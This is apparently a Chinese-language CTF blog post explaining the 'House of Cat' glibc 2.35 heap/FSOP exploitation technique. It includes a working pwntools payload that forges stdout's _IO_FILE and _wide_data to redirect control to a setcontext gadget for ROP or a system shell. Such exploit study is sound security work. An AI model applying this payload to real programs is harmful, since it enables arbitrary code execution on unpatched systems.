





半年前的软件系统安全赛出了一道glibc 2.35的堆题，当初还不了解堆的利用手法，导致遗憾折戟。这两天刚好看到一篇house of cat的文章，心血来潮复现一下。

现在已经习惯了2.35甚至2.39版本以上的glibc版本，常态化打_IO_FILE，一直是House of Apple 2用的最多，因为限制少而且容易布局，当然这种方法也有一定的局限性，比如程序正常退出需要修复heap中的错误，实属麻烦。

截至今日(2026.11.18)，glibc的最新版本是2.44，而且官方还在不断打补丁，堆利用变得越来越困难(虽然是好事)。删除fastbin等操作显著收窄了利用面，不知为何_wide_data的vtable官方迟迟不动手，但也是迟早的事情，各种新方法也是在FSOP这里做文章，比如今天并不算新的House of Cat就借助了House of Emma的vtable偏移思想。

所以说一些老方法还是有一定作用的，emmm，说不定还能提供一些思路？

接下来的讲解基于glibc 2.35

## House of Cat

这种方法本质上是利用printf函数的一条路径通往_IO\_wfile_xsputn函数，在伪造vtable偏移的情况下误入\_IO\_wfile_seekoff函数，沿着\_IO\_seekoff -> _IO_switch_to_wget_mode 调用手动布置的_wide_data中的假_IO_overflow_t(实际上已经被替换为我们的gadget)，从而劫持控制流

堆管理器分配异常的__malloc_assert也可以进入这一路径，可惜__malloc_assert符号在glibc 2.35后被删除了

当我们获得stdout的控制权后，就可以先泄漏glibc地址后伪造_IO_FILE，本文将重点放到stdout的伪造以及漏洞触发过程上

嗯？你问我怎么获得stdout的控制权？自己想办法去。虽说还有一计，就是利用largebin attack覆写_IO_list_all为堆块地址，同时在堆上布局_IO_FILE，但这并非本文主要所讲(我懒得写了)

先看结构_IO_FILE_plus，这也是stdout的结构体



可以看到，偏移216，换算为16进制就是0xd8处，为vtable

然后是这个FILE结构体，全称_IO_FILE



其中有些非常重要的成员，如_wide_data、_IO_write_ptr这些

_wide_data是我们要伪造的内容



核心就在于改写其中的_wide_vtable字段，触发我们自己的函数或gadget。那你可能要问了，主播主播，为什么不直接更改_IO_FILE的vtable呢？因为_IO_FILE的vtable存在地址校验，只能放置到特定的地址范围内。诡异的是，_wide_data中却没有这一校验。话不多说直接开始构造。


```python
fake_IO_FILE  = p64(0)
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(1)
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(stdout+0x10) # _wide_data->_IO_write_ptr 成为 setcontext 的 rdx
fake_IO_FILE += p64(stdout+1) # write_ptr < write_base
fake_IO_FILE += p64(0) 
fake_IO_FILE += p64(0) 
fake_IO_FILE += p64(0) 
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(setcontext_61) # gadget
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(stdout)
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(stdout+0x10)  # setcontext 恢复的 rsi
fake_IO_FILE += p64(libc_base + 0x21ba00) # _lock 需要为一个可写地址
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0x108)        # setcontext 恢复的 rdx
fake_IO_FILE += p64(stdout)       # 0xa0: _wide_data = stdout
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(stdout+0x10)  # 0xb0: => setcontext 恢复的 rsp
fake_IO_FILE += p64(read_addr)    # 0xb8: => setcontext 恢复的 rip
fake_IO_FILE += p64(0)   
fake_IO_FILE += p64(0)      
fake_IO_FILE += p64(0)      
fake_IO_FILE += p64(IO_wfile_jumps + 0x10) # 错位 vtable
fake_IO_FILE += p64(stdout + 0x40) # 伪造的wide_data vtable
```

这里的精髓呢，就是让_IO_FILE，wide_data，wide_vtable重合布局，因为对我们最有用的偏移量，也无非就0xd8、0xe0这几个

写入完成后，按部就班调用printf

狙击开始

printf 调用vtable中的_IO\_wfile_xsputn函数时产生错位，误入_IO\_wfile_seekoff并进入_IO_switch_to_wget_mode，调用wide_vtable的overflow，恰好执行了我们的setcontext gadget，恢复所有寄存器并进行ROP链的执行。



顺便提一句，setcontext 恢复寄存器时的寻址依靠rdx，我们早已预知并在fake wide_data中布置

这是较为复杂的orw方法，如果程序没有开启seccomp沙箱的话，完全可以将setcontext+61的gadget改为system，直接拿到shell



我不知道FSOP这条路还能走多远，但有一点可以确认，那就是大多数小厂商宁愿冒着牺牲安全性的风险，也不愿对系统进行升级。我们学校的一些资产就是如此，让人痛心疾首却又无能为力。时代在发展，ai会催人进步，没有血流成河的惨剧，永远都不会构筑起更坚固的防线。


Pwned by hyk


